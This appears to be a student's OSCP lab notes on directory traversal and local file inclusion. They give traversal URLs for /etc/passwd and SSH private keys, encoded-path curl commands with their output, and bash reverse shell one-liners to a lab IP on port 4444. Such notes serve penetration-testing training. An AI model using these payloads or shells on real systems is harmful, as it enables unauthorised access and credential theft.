 
#### 9.1. Directory Traversal


###### 9.1.1. Absolute vs Relative Paths
1. Absolute Path - cat /etc/passwd
2. Relative Path - cat ../../../../etc/passwd 

*Lab Exercise* 
1. Content
2. Content

###### 9.1.2. Identifying and Exploiting Directory Traversals

1. Try to find out such link by hovering on webpage. 
```
https://example.com/cms/login.php?language=en.html
```
2. Check out etc passwd file. 
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
3. Find out SSH keys. 
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```
4. Save ssh keys in new file. 
5. Establish ssh connection, flag obtained. 
```
┌──(kali㉿kali)-[~/OSCP/9]
└─$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
The authenticity of host '[mountaindesserts.com]:2222 ([192.168.226.16]:2222)' can't be established.
ED25519 key fingerprint is SHA256:EhEUVlXm/sRKDZLdE5F6w6mb8Gul5rjBcGOKqlJhClM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes    
Warning: Permanently added '[mountaindesserts.com]:2222' (ED25519) to the list of known hosts.
Linux d0d84fd8e502 5.4.0-132-generic #148-Ubuntu SMP Mon Oct 17 16:02:06 UTC 2022 x86_64
OS{a4284896cb46d505de60cfe3bae70a53}
```


*Lab Exercise*
1. Follow walkthrough. 
2. curl --path-as-is http://192.168.226.193:3000/public/plugins/mysql/../../../../../../../../Users/install.txt
 
###### 9.1.3. Encoding Special Characters
1. Checkgin directory traversal vulnerability using ../
```
┌──(kali㉿kali)-[~/OSCP/9]
└─$ curl http://192.168.226.16/cgi-bin/../../../../etc/passwd
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>

┌──(kali㉿kali)-[~/OSCP/9]
└─$ curl http://192.168.226.16/cgi-bin/../../../../../../etc/passwd
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The request
```

2. Using encoded dots for directory transversal (Replacing . with %2e)
```
┌──(kali㉿kali)-[~/OSCP/9]
└─$ curl http://192.168.226.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
alfred:x:1000:1000::/home/alfred:/bin/bash

```

*Lab Exercise*
1. curl http://192.168.226.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords
2. curl --path-as-is http://192.168.226.16:3000/public/plugins/mysql/../../../../../../../../opt/install.txt


#### 9.2. File Inclusion Vulnerabilities

###### 9.2.1. Local File Inclusion (LFI)
1. Log entry of Apache's access.log
2. PHP Snippet to embed in the User Agent
3. Bash reverse shell one-liner. 
``` Reverse shell 
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```
4. Capture netcat and get reverse shell. 

*Lab Exercise*
1. www-data@f0e0b755ce98:/home/ariella$ sudo cat flag.txt
sudo cat flag.txt
OS{c3f0931fda3271808c70bbc2dfbb4e57}
2. Follow above every steps from above, Flag is on /opt/admin.bak.php page
3. Same as above steps, follow this relative pathway for burpsuite repeater. /meteor/index.php?page=../../../../../../../../../xampp/apache/logs/access.log&cmd=type%20hopefullynobodyfindsthisfilebecauseitssupersecret.txt. 


###### 9.2.2. PHP Wrappers

###### 9.2.3. Remote File Inclusion (RFI)

1. Log entry of Apa
```

```


#### 9.3. File Upload Vulnerabilities

###### 9.3.1. Using Executable Files

###### 9.3.2. Using Non-Executable Files



#### 9.4. Command Injection

###### 9.4.1. OS Command Injection



#### 9.5. Wrapping Up

